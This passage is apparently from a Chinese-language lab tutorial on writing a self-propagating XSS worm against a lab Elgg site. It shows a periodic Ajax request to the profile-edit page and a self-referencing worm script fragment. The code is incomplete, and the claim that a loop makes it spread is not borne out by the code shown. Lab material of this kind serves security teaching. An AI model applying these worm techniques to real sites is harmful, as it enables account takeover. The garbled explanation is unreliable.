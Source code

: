 ![图片描述信息](img/userid9094labid937time1430793277872.jpg)

这里是代码：

```
 var on=new Ajax.PeriodicalUpdater("edit",
    "http://www.xsslabelgg.com/action/profile/edit",
    //定义一个新的 Ajax.PeriodicalUpdater
    {method:’get’,onSuccess:function(transport){alert(transport.responseText);},
    frequence:1000}
    //请求方式为 get，频率为 1000 
```

上面的蠕虫代码不能够进行自动传播，这样达不到我们的需求；我们需要编写一个可以自动传播的 xss 蠕虫病毒，下面这段代码是蠕虫可以自动传播：

```
 <script id=worm>//定义 js 的 id 为 worm
    var strCode = document.getElementById("worm");
    //找到元素 id
    alert(strCode.innerHTML);
    </script> 
```

代码中使用循环体，从而达到自动传播的目的。

在实验机中这样创建 xss 蠕虫：

```
sudo vim xss_worm.js 
```

![图片描述信息](img/userid9094labid937time1430793298436.jpg)
